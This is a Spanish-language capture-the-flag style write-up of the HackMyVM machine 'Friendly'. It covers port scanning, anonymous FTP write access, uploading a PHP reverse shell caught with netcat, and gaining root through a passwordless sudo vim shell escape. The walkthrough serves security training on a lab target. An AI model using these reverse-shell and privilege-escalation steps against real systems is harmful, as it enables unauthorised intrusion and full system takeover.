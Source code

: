 ```yaml
---
layout: post
title:  "Friendly"
date:   2023-04-15 18:20:52 +0200
categories: hackmyvm
---
```

**Autor**: Rijaba \\
**Dificultad**: Fácil
![img](/assets/hmv/hmv_friendly/friendly_logo.png)

### Escaneo de puertos
```js
❯ nmap -p- -T5 -n -v 192.168.1.12

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

### Escaneo de servicios
```txt
❯ nmap -sVC -v -p 21,80 192.168.1.12

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
```

### HTTP
Tenemos la página por defecto de apache.
```txt
❯ curl -s http://192.168.1.12 | html2text

[Debian Logo]  Apache2 Debian Default Page
It works!
This is the default welcome page used to test the correct operation of the
Apache2 server after installation on Debian systems. If you can read this page,
it means that the Apache HTTP server installed at this site is working
properly. You should replace this file (located at /var/www/html/index.html)
before continuing to operate your HTTP server.
If you are a normal user of this web site and don't know what this page is
about, this probably means that the site is currently unavailable due to
maintenance. If the problem persists, please contact the site's administrator.
Configuration Overview
```
### FTP
Me conecto al servidor FTP con el usuario anonymous y veo un archivo index.html se trata del archivo por defecto del servidor apache.
```txt
❯ ftp 192.168.1.12

Name (192.168.1.12:noname): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||31488|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
```
Creo un archivo **``phpinfo.php``** y lo subo al servidor FTP porque que tengo permisos de lectura, escritura y ejecución.
```php
<?php
    phpinfo();
?>
```

Con Firefox abro el archivo **``phpinfo.php``** y veo que interpreta código php.

![img](/assets/hmv/hmv_friendly/phpinfo.png)

Me he descargado esta **[ shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz)** y la he configurado apuntando a mi dirección ip.


La subo al servidor FTP con el comando **``put``**.
```txt
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||47066|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |****************************************|  3463       66.05 MiB/s    00:00 ETA
226 Transfer complete
3463 bytes sent in 00:00 (2.60 MiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||58099|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 .
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:18 phpinfo.php
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:21 php-reverse-shell.php
226 Transfer complete
```

Uso curl para entablarme la reverse-shell.
```txt
❯ curl -s http://192.168.1.12/php-reverse-shell.php
```
Obtengo la shell.

```txt
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.12: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 47948
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 08:25:02 up 11 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Realizo el tratamiento de la tty.
```txt
script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
xterm
export TERM=xterm SHELL=bash
stty -row 46 columns 188
```
### Privesc
Lanzo **``sudo -l``** para ver que permisos tengo con sudo.

```txt
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Me voy a gtfobins y busco vim.

![img](/assets/hmv/hmv_friendly/vim_gtfobins.png)

Uso el comando de gtfobins para obtener el root solo que la parte del comando donde pone **``/bin/sh``** lo he cambiado por **``/bin/bash``**.
```txt
www-data@friendly:/home/RiJaba1$ sudo /usr/bin/vim -c ':!/bin/bash'
root@friendly:~# whoami
root
```

Al intentar leer la flag de root me encuentro con el siguiente mensaje.

```txt
root@friendly:~# cat root.txt 
Not yet! Find root.txt.
```
Busco **``root.txt``** en todo el sistema.

```txt
root@friendly:~# find / -name root.txt 2>/dev/null
```

Y aquí termina la máquina **Friendly** :)



